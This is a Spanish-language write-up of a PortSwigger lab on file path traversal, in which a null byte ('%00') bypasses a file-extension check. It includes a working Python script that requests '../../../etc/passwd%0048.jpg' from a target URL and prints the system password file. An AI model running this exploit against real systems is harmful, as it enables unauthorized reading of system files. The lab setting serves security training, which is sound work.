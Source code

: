 ```yaml
---
title: "06 File path traversal, validation of file extension with null byte bypass"
collection: publications
category: portswigger
permalink: publications/Directory Traversal/06_File path traversal, validation of file extension with null byte bypas
excerpt: 'Este laboratorio contiene una vulnerabilidad en la visualización de imágenes de productos. La aplicación valida que el nombre de archivo suministrado termine con la extensión de archivo esperada.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'File path traversal, validation of file extension with null byte bypass'
---
```


![logo]({{site.url}}/images/Directory Traversal/directory-traversal-06/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Directory Traversal/directory-traversal-06/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, recuperamos el contenido del archivo `/etc/passwd`.

## Analisis

La web valida la extensión del archivo, asi que necesitamos ingresarle un `Byte Null` que basicamente le indica ignora todo lo que llegue despues de este caracter `null`, asi que va a ignorar la extensión del archivo.

Caracter Nulo: `%00`

![Conf1]({{site.url}}/images/Directory Traversal/directory-traversal-06/conf1.png)

# Aprobado

![Aprobado]({{site.url}}/images/Directory Traversal/directory-traversal-06/aprobado.png)

# Codigo Python

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=../../../etc/passwd%0048.jpg'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```